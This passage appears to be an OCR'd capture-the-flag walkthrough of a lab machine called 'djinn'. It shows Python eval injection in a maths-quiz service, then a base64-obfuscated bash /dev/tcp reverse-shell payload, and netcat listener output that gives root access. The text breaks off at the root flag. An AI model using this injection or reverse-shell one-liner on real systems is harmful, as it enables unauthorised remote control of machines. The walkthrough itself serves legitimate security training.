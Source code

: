 Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 1)

\> eval('__import__("os").system("whoami")')

root

Wrong answer

Next the same encoding was used to get a reverse root shell as the initial user
shell.

root\@lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 9)

\> eval('__import__("os").system("echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d \|
bash")')

### Catching Reverse Shell

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 46628

bash: cannot set terminal process group (20312): Inappropriate ioctl for device

bash: no job control in this shell

root\@djinn:/\# whoami

whoami

root

### Root Flag

root\@djinn:/\# cd /root

cd /root
